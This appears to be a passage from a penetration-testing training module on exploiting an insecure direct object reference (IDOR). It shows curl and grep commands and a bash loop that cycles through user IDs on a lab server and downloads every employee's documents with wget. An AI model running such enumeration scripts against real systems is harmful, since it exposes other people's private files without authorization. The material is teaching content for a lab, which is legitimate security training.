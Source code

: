 We can pick any unique word to be able to `grep` the link of the file. In our case, we see that each link starts with `<li class='pure-tree_link'>`, so we may `curl` the page and `grep` for this line, as follows:

Mass IDOR Enumeration

```bash
z0mb34r@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>

```

As we can see, we were able to capture the document links successfully. We may now use specific bash commands to trim the extra parts and only get the document links in the output. However, it is a better practice to use a `Regex` pattern that matches strings between `/document` and `.pdf`, which we can use with `grep` to only get the document links, as follows:

Mass IDOR Enumeration

```bash
z0mb34r@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\\\\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf

```

Now, we can use a simple `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link:

Code: bash

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\\\\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done

```

When we run the script, it will download all documents from all employees with `uids` between 1-10, thus successfully exploiting the IDOR vulnerability to mass enumerate the documents of all employees. This script is one example of how we can achieve the same objective. Try using a tool like Burp Intruder or ZAP Fuzzer, or write another Bash or PowerShell script to download all documents.

Enable step-by-step solutions for all questions
